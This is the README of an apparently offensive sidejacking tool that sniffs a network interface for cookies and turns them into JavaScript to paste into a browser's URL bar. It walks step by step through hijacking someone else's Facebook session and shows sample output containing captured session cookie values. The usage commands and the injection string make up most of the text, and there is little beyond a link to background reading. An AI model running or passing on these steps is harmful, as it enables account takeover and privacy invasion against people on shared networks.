 # Cookie Javascript Injection Sidejacking

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-f`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -f`

# Example of Facebook sidejacking

1 - Run cookieJsInjection and wait for cookies to appear

`glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -f`
`javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1L798929644A5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");`

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
# Background
More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking